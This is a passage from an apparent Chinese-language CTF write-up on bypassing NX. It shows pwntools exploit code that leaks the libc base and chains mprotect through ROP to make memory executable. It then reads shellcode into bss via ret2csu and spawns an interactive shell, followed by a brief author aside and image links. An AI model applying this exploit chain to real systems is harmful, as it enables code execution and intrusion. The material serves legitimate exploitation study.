 ```python
prdx_ret += libcbase 
pr('libcbase',libcbase)

#gdb.attach(p,'b *0x400618')
payload = ropchain(mprotect,0x600000,0x1000,7,vuln)
p.sendafter('Input:\n',payload)

payload = csu_payload(read_got,0,bss,0x200,bss)
p.sendafter('Input:\n',payload)


shellcode = asm(shellcraft.sh())
p.send(shellcode)

p.interactive()


```

本来想用mmap试试，发现r9相关的rop有点难利用也懒得试了，老懒狗了。

![](/picture/rop/2021-03-28-通过mmap&mprotect来绕过nx/7.png)

![](/picture/rop/2021-03-28-通过mmap&mprotect来绕过nx/8.png)
